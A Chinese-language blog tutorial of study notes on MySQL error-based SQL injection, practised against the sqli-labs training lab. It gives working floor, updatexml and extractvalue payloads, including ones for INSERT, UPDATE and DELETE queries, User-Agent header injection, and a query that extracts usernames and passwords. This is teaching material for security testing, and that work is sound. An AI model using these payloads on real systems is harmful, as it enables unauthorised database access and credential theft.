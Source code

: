 # 06-mysql类型报错注入

  

# 1. SQL各种参数类型下的注入测试

- 数字型-sqlilabs less2   `x.php?id=1`
- 字符型-sqlilabs less1   `x.php?id=xiaodi`
- 搜索型-自写测试           `x.php?q=1`      （select * from table where name like '%xi%'）

**搞懂：**

1. 搞清楚为何要区分上面的类型
   数字的不带引号，字符型带符号，注意考虑干扰
   搜索型：模糊搜索
   计算机中搜索的通配符为`*`
   数据库中搜索的通配符为`%`






# 2. SQL各种报错方式下的注入测试

>此类报错注入旨在解决无回显下的注入测试
>注：MySQL 5.1.5版本后才包含`ExtractValue()`和`UpdateXML()`这2个函数

**参考资料：**
https://www.wandouip.com/t5i158282/
http://blog.sina.com.cn/s/blog_1450cc4c60102vraq.html


###### `floor`报错

sqlilabs less5

>报错注入有长度限制，所以concat有时候不行， 需要limit 或者还需要sub
>**payload:**

```
-- burp中注意空格问题（空格可以用+加号， 或者%20, 或者 /**/ 代替）
?id=1'+and+(select+1+from (select+count(*),concat(version(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)--+
?id=-1' and(select 1 from (select count(*),concat((select table_name from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a)-- + 

?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x7e,floor(rand(0)*2)))-- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and (select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))) -- + 

-- 可以用burp批量跑 limit 0,1 的0这里。payload设置数字范围
```

###### `updatexml`报错

sqlilabs less5
updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
?id=1' and 1=(updatexml(1,concat(0x3a,(select version())),1))--+
?id=1' and 1=(updatexml(1,concat(0x3a,(select table_name from information_schema.tables limit 0,1)),1))--+

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e), 1) -- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select concat_ws(0x3a, username,password) from security.users limit 0,1),0x7e), 1) -- + 
```

###### `extractvalue`报错

sqlilabs less5
extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
id=1' and extractvalue(1,concat(0x7e,user()))--+
?id=1' and extractvalue(1, concat(0x5c,(select table_name from information_schema.tables limit 1)))--+

```





# 3.SQL各种查询方式下的注入测试

- select
- insert（注册，用户添加，发布文章）   Less-18

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
-- sql语句  ??? 对吗没验证，截图了
insert into users(username, passwd)  values('x' or updatexml(1,concat(0x3a,(  version() ),1)  or  '  ',  'psd');

--payload
User-Agent: 中                    x' or updatexml(1,concat(0x7e,(version())),1) or ' 

User-Agent: x' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1)),1) or ' 

自己练习增,删,改： updatexml和extra两个都实验
```

- delete（后台删除文章, 用户...）
- update （改密码，数据同步）
  通过以上查询方式与网站一个用的关系，可以由注入点产生的地方或者应用猜测到对方的SQL查询方式


**环境搭建**

> 自己搭建

利用上述报错注入语句进行查询模式注入测试

```
create database newdb;

use newdb;

create table users (
    id int(3) not null auto_increment,
    username varchar(20) not null,
    passowrd varchar(20) not null,
    primary key(id)
);

insert into users values(1,'janes','Eyre');


```

> 注意使用场景，在什么情况下用到  


**插件：**
`mysql监控-Seay代码审计系统`        查看执行了哪些语句



>报错注入有长度限制:32位, 如果长度超出会显示不全.
>解决方案: substr((),1,1) 递进截取依次 (select substr(concat(username,0x3a,password), 1,10) from users limit 0,1)



###### 三种查询方式对应的报错注入测试

**floor报错演示Payload**

```sql
insert into users(id,username,passowrd) values(1,'Olivia' or (select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x;
) or '','Nervo');

update users set passowrd='Nicky' or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '' where id=2;

delete from users where id=1 or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a)

```

**updatexml报错演示Payload**

```
insert into users(id,username,passowrd) values(2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or '','Nervo');

update user set passowrd='Nicky' or  updatexml(1,concat(0x7e,(version())),0) or '' where id=2 and username='Nervo';

delete from users where id=2 or updatexml(1,concat(0x7e,(version())),0) or '';

```

**extractvalue报错演示Payload**

```sql
insert into users(id,username,password) values(2,'Olivia' or extractvalue(1,concat(0x7e,database())) or '','Nervo');

update users set passowrd='Nicky' or extractvalue(1,concat(0x7e,database())) or '';

delete from users where id=1 or extractvalue(1,concat(0x7e,database())) or '';

```

>参考：https://www.cnblogs.com/babers/articles/7252401.html

**Notes:**

>delete，insert，update语句存在sql注入，扫描工具常规扫描不能获取到（没有权限，前提要登录状态下/登录后按钮的点击事件工具里面不能自动点击）， 所以：**只能手工注入**

**比如场景：**   注册/会员中心/删除文章/更新编辑文章       -->抓包：数据包地址+id参数 ： 手工测试

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/06-mysql%E7%B1%BB%E5%9E%8B%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/  

